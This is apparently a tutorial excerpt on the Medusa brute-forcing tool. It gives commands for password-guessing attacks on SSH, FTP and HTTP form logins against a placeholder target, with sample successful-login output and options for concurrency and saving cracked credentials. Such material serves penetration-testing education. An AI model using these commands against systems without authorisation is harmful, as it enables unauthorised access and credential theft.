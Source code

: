 ### Common Protocols

Medusa supports various protocols, including:

- SSH
- FTP
- HTTP
- MySQL
- VNC

### Usage Examples

#### 1. Brute-forcing SSH

```bash
medusa -h target_ip -u username -P /path/to/passwords.txt -M ssh
```

- **`-h`**: Specifies the target IP address.
- **`-u`**: Specifies the username.
- **`-P`**: Specifies the path to a file containing passwords.
- **`-M`**: Specifies the module (in this case, `ssh`).

**Expected Output:**

```
[+] Login successful: username:password123
```

#### 2. Brute-forcing FTP

```bash
medusa -h target_ip -u admin -P /path/to/passwords.txt -M ftp
```

**Expected Output:**

```
[+] Login successful: admin:admin123
```

#### 3. Brute-forcing HTTP Form Authentication

For web applications, you may need to specify the form parameters:

```bash
medusa -h target_ip -u username -P /path/to/passwords.txt -M http -f "username=^USER^&password=^PASS^"
```

**Expected Output:**

```
[+] Login successful: username:password456
```

### Options

- **`-t <number>`**: Specifies the number of concurrent tasks (default is 16).
- **`-v`**: Enables verbose mode to show more details during the attack.
- **`-o <output_file>`**: Saves the found credentials to a file.
